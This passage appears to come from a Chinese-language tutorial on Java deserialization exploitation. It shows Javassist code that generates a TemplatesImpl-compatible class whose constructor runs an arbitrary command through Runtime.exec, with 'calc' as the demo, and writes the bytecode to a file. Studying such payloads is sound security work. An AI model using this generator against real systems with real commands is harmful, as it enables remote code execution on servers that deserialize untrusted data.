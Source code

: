 ```plain
            e.printStackTrace();
            return ctClass;
        }
    }

    public static void WriteShell() throws IOException, CannotCompileException {
        CtClass shell = GetShellCode.getTemplatesImpl("calc");
        shell.writeFile("D:\\Tomcat\\CC\\src\\main\\java\\JavaassitTest");
    }
    public static void main(String[] args) throws NotFoundException, CannotCompileException, IOException {
        WriteShell();
    }
}
```

这就是我们生成的恶意类：

```plain
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

public class A extends AbstractTranslet {
    public A() {
        Runtime.getRuntime().exec("calc");
    }
}
```

生成二进制文件形式：

```plain
package EXPShell;
import javassist.*;

import java.io.File;
import java.io.FileOutputStream;
import java.io.IOException;
public class GetShellCode {
    public static byte[] getTemplatesImpl(String cmd){
        try {
            ClassPool pool = ClassPool.getDefault();
            CtClass ctClass = pool.makeClass("A");
            CtClass superClass = pool.get("com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet");
            ctClass.setSuperclass(superClass);
            CtConstructor constructor = CtNewConstructor.make("public A(){Runtime.getRuntime().exec(\"" + cmd + "\");\n}", ctClass);
            ctClass.addConstructor(constructor);
            byte[] bytes = ctClass.toBytecode();
            ctClass.defrost();
            return bytes;

        }catch (Exception e){
            e.printStackTrace();
            return new byte[]{};
        }
    }

    public static void WriteShell() throws IOException {
        byte[] shell = GetShellCode.getTemplatesImpl("calc");
        FileOutputStream fileOutputStream = new FileOutputStream(new File("D:\\Tomcat\\CC\\src\\main\\java\\EXPShell\\S"));
        fileOutputStream.write(shell);
    }
```